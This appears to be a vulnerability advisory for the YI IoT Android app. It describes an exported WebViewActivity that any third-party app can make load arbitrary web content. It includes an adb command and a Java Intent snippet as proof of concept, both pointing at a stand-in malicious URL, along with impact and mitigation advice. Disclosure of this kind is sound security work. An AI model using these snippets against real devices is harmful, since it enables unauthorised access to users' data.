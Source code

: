 

**Vulnerability Details:**

Product: YI IoT
Version: 4.1.7_20231026
Vendor: Kami Vision
Component Affected: `com.ants360.yicamera.activity.WebViewActivity`

The activity `com.ants360.yicamera.activity.WebViewActivity` is marked as exported and accepts an implicit Intent, making it accessible from any third-party application. This can be exploited to load a malicious web page in the WebView, potentially leading to RCE or unauthorized actions.

**Proof of Concept 1 - ADB Invocation:**

```
adb shell am start -n com.yunyi.smartcamera/com.ants360.yicamera.activity.WebViewActivity -e path "https://www.example.com/maliciousContent"
```

**Proof of Concept 2 - Third-party Android Java Code:**

```java
Intent intent = new Intent();
intent.setComponent(new ComponentName("com.yunyi.smartcamera", "com.ants360.yicamera.activity.WebViewActivity"));
intent.putExtra("path", "https://www.example.com/maliciousContent");
startActivity(intent);
```

This Java code snippet demonstrates how a malicious application can invoke the `WebViewActivity` without any permissions, thereby leveraging the vulnerability.

**Impact:**

The vulnerability does not require any permissions and can be exploited by any third-party application installed on the same device. It could lead to unauthorized access, data theft, or manipulation of user information.

**Recommended Mitigations:**

1. Set `android:exported` to `false` for `WebViewActivity` if it is not meant to be accessed externally.
2. Restrict the activity to respond only to explicit Intents from trusted sources.
3. Sanitize and validate all Intent data before use within the app.
4. Implement WebView security best practices, including the disabling of JavaScript if it is not essential.

**Steps to Reproduce:**

1. Install the YI IoT app (version 4.1.7_20231026).
2. Execute the adb command or the Java code provided above.
3. Observe the WebView loading content from the arbitrary, potentially malicious source.
